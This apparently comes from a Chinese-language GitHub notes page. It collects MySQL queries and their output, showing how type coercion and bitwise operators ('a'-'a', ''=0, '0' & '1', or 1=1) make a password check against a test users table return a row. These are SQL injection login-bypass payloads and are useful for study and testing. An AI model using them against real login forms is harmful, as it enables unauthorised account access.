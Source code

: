 # sql位运算结果总汇

这是之前试的关于sql对位运算的结果等的一个总汇= =，懒得修改了，直接放上来，或许有一天会有少许的提示呢。

>select * from users where username='MarcoFly' and password=0;

>select * from users where username='MarcoFly' and password='1'-'1';

>select * from users where username='MarcoFly' and password=1-1;

>select * from users where username='MarcoFly' and password='a'-'a';

>select * from users where username='MarcoFly' and password='gragfds'-'agfsy';

>select * from users where username='MarcoFly' and password=''-'';

>select * from users where username='MarcoFly' and password=''--'';

>select * from users where username='MarcoFly' and password=''-0-'';

>select * from users where username='MarcoFly' and password=''=0;

>select * from users where username='MarcoFly' and password='fdsa' & '1';  (&是位运算的意思，两者不同返回0)

>select * from users where username='asgsda'='' and password='hgfsaf'='';

>select * from users where username='MarcoFly' and password='admin' or 1=1;

上述都成功返回数据

>mysql> select * from users where username='MarcoFly' and password='1' | '1';
>Empty set, 1 warning (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='fdsa' & 'fdsa';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 4 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='1' & '1';
>Empty set, 1 warning (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='a' & 'a';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 4 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='0' & '1';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 2 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='a' & '1';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 3 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='a' & 'b';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 4 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='fdsa' | 'a';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 4 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password=0|0;
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 2 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='0' | '0';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 2 warnings (0.00 sec)

>mysql> select * from users where username='MarcoFly' and password='0' ^ '0';
>+----+----------+----------+-------------------+
>| id | username | password | email             |
>+----+----------+----------+-------------------+
>|  3 | MarcoFly | test     | marcofly@test.com |
>+----+----------+----------+-------------------+
>1 row in set, 2 warnings (0.00 sec)